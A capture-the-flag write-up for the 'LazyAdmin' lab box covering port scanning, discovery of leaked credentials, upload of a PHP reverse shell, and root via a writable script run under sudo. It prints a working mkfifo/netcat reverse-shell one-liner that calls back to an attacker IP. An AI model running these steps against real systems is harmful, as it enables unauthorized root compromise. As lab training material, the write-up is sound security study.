



# LazyAdmin

---

## Enumeration

Initial Nmap scan revealed the following open ports:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

The scan also suggested the operating system is Linux 4.15.

---

## Web Enumeration

Using `ffuf`, I discovered a hidden `/content` directory that contained several interesting routes:

```
/js
/inc
/as
/_themes
/attachment
```

Inside the `/inc` directory, I found a MySQL backup file that exposed credentials:

- **Username:** `manager`
- **Password:** `Password123`

*Evidence*:



Then, I accessed the `/as` route which hosted a login portal. The discovered credentials worked, granting access.

---

## Gaining a Reverse Shell

I uploaded a [PHP reverse shell script](scripts/rev_shell.php) to the accessible `/content/inc/ads` directory:

📸 *Upload evidence*:



After setting up a Netcat listener on my machine:

```bash
nc -lvnp 8080
```

I triggered the shell by visiting:

```
http://<IP>/content/inc/ads/<shell_name>.php
```

This gave me access as the `www-data` user!

---

## Privilege Escalation

I checked for sudo permissions:

```bash
sudo -l
```

It revealed I could run `/usr/bin/perl /home/itguy/backup.pl` as root. That script called another file I had write access to.

📸 *Privilege escalation path*:



So, I edited the writable script to spawn a reverse shell:

```bash
echo '#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.23.124.231 8080 > /tmp/f' > /etc/copy.sh
```

Before running the script, I set up the listener again:

```bash
nc -lvnp 8080
```

Then I executed the script with sudo:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

This gave me **root** access.

---

## Root Access Achieved!

With these steps, I fully compromised the target system.
